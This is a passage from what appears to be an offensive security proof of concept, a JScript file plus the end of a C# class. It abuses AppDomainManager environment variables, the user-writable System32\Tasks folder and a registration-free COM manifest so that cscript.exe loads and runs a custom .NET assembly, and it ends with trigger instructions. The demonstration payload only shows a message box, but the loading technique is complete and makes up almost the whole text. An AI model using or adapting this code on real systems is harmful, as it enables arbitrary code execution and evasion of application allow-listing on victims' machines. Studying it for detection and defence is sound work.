 ```
		 }
		 
		  [ComVisible(true)]
		 public void getValue3()
		 {
					System.Windows.Forms.MessageBox.Show("Hey From My Assembly");

		 }
		 
	 }
}
```


tasks.js
```
// var manifest string should be UTF-16
// Controls the search path for unmanged dlls
new ActiveXObject('WScript.Shell').Environment('Process')('COMPLUS_Version') = 'v4.0.30319';new ActiveXObject('WScript.Shell').Environment('Process')('TMP') = 'c:\\Windows\\System32\\Tasks';
new ActiveXObject('WScript.Shell').Environment('Process')('APPDOMAIN_MANAGER_ASM') = 'tasks, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null';
new ActiveXObject('WScript.Shell').Environment('Process')('APPDOMAIN_MANAGER_TYPE') = 'MyAppDomainManager';


var o = new ActiveXObject("System.Object"); // Trigger AppDomainManager Load

// Ideally, we create a DLL, drop it anywhere and load it like DynamicWrapper...

// Loads Assembly, but expects it in the C:\Windows\System32 for example for managed code...
// Good news, CLR tries to resolve in sub dir with name of app.  
// Since C:\Windows\system32\tasks is user writable... :) CLR finds and loads our assembly.


var manifest = '<?xml version="1.0" encoding="UTF-16" standalone="yes"?><assembly manifestVersion="1.0" xmlns="urn:schemas-microsoft-com:asm.v1" xmlns:asmv3="urn:schemas-microsoft-com:asm.v3"><assemblyIdentity name="tasks" type="win32" version="0.0.0.0" /><description>Built with love by Casey Smith @subTee </description><clrClass   name="MyDLL.Operations"   clsid="{31D2B969-7608-426E-9D8E-A09FC9A5ACDC}"   progid="MyDLL.Operations"   runtimeVersion="v4.0.30319"   threadingModel="Both" /><file name="tasks.dll"> </file></assembly>';

var ax = new ActiveXObject("Microsoft.Windows.ActCtx");

ax.ManifestText = manifest;

var dwx = ax.CreateObject("MyDLL.Operations");
//WScript.StdOut.WriteLine(dwx.getValue1("a"));
//WScript.StdOut.WriteLine(dwx.getValue2());
dwx.getValue3() //Trigger Message Box
```

Trigger with cscript.exe tasks.js
Observe Assemmbly execution from AppDomain initialization as well as calling into a method in our custom class
